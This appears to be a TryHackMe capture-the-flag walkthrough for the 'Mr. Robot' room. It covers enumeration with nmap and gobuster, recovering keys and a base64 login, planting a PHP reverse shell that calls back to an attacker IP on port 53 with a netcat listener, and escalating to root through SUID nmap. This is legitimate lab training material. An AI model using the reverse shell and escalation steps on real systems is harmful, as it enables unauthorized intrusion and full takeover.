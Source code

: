 # Mr. Robot – TryHackMe Walkthrough

## 🧠 Overview
This room is based on the Mr. Robot TV series...

...

OBJECTIVE:

In this room, we are tasked with gaining root access on a vulnerable machine. 
The steps involve network enumeration, web exploitation, and privilege escalation through a reverse shell, followed by privilege escalation using GTFOBins.

INITIAL ENUMERATION:
Step 1: Network Scanning with Nmap
We start by scanning the target IP to identify open ports and services. We use the following Nmap command:
                     
                     nmap -A <target_ip>
                     
Step 2: Directory Bruteforce with Gobuster
Next, we run Gobuster to find hidden directories on the target web server:

                     gobuster dir -u http://<target_ip> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
                     
This discovers directories and files that may be useful for further exploitation.
/robots
/readme
/license
/sitemap 
/login etc

step3:

                          http://<target_ip>/robots.txt

                          
you will find:
User-agent: *
fsocity.dic
key-1-of-3.txt

step 4:FINDING KEY 1

                    http://ip/key-1-of-3.txt
                
                           OR 
                         
                   Curl http://ip/key-1-of-3.txt

steP5:Finding Key 2 – /license Page

                   http://<target_ip>/license
                
You’ll see a base64 encoded string, something like:

                   ZGVwbG95ZXI6cm9ib3Q=
Decode It:

                   echo ZGVwbG95ZXI6cm9ib3Q= | base64 -d
                
username:password     (HINT username is elloit)


 STEP5:Web Exploitation - Reverse Shell
 
 after visiting http://ip/login and entering the username and passwd boom we  are logged in.Now we have
 to look for weak spots and luckily it wasnt too hard to find one.In the editors menu(vertical left side on website)
 when visited it shows .php so we can look for a php exploit
 

STEP6:Setting Up the Reverse Shell

We find a PHP reverse shell script on GitHub (such as this one: PHP Reverse Shell on GitHub)
and copy the code into the vulnerable web application. Here's how we set it up:

Modify the PHP script to use our IP address and the port number 53 (chosen to avoid detection or blocking by firewalls).

The PHP reverse shell typically looks like this:


                                <?php
                                $ip = '<your_ip>';   // Your IP address here
                                $port = 53;          // Port to connect back to
                                $socket = fsockopen($ip, $port);
                                exec("/bin/sh -i <&3 >&3 2>&3");
                                ?>

                           
STEP7:SETTING UP A LISTENER:

Start the Netcat listener on your local machine to accept
incoming connections on port 53 (or any port of your choice):

                                nc -lvnp 53


STEP8:BYPASSING SU AND SUDO

Once the reverse shell is successfully initiated, we are connected to the target system, but we are restricted to a limited shell. 
We cannot use sudo or su commands to elevate our privileges. This is common when running a reverse shell from a web server.

To bypass these restrictions and get a fully functional TTY shell, we can use Python to spawn a fully interactive shell. 
This method works because the reverse shell is not fully interactive at this point.

                                python -c 'import pty; pty.spawn("/bin/bash")'

pty.spawn("/bin/bash"): This spawns a new shell that supports interactive commands like clear, ls, etc., 
which aren't available in the default reverse shell.


STEP9:Finding SUID Binaries

At this point, we have basic access to the system. To escalate privileges to root, we search for SUID binaries. 
These are executables that have the setuid bit set, which means they will run with the privileges of the file owner (typically root).
We can search for these binaries by running:

                                find / -perm -4000 2>/dev/null

find /: Searches the entire filesystem.

-perm -4000: Finds files with the setuid bit set.

2>/dev/null: Suppresses error messages (like permission denied).

This search may return results like /usr/bin/nmap or /usr/bin/ssh, indicating that these binaries
are setuid and may be useful for privilege escalation.


STEP10:USING NMAP WITH SUID:

In our case, we find that Nmap is setuid, meaning it can be executed with root privileges. By using the GTFOBins resource,
we find that Nmap can be exploited for privilege escalation.
We use Nmap’s interactive mode to escalate our privileges:

                               nmap --interactive
                               
--interactive: Starts Nmap in interactive mode, where we can run system commands as the root user.

Once in interactive mode, we have root access and can run system commands like

                              whoami, id, ls /root, and more.





